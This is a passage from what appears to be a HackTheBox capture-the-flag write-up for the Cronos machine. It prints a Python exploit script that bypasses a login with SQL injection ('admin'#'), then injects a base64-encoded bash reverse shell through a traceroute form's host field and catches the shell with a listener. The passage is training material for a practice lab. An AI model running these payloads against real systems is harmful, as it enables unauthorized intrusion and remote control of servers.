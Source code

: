 Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:23:57.png)

auto_cronos.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Cronos - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# b64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Create the payload
def createPayload(lhost,lport):
    print("[+] Let's creat the payload !! [+]")
    global payload
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    payload = str(b64e(payload))

# Let's login as admin on the app
def LoginAdmin(rhost):
    print("[+] Let's login as admin ! [+]")
    url = "http://%s:80/" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin'#", "password": "admin"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In !! [+]")

def getReverse(rhost,lhost,payload):
    print("[+] Let's get the reverse shell !! [+]")
    url = "http://admin.cronos.htb:80/welcome.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"command": "traceroute", "host": ";echo %s | base64 -d | bash" %payload}
    requests.post(url, headers=headers, data=data, proxies=proxies)
```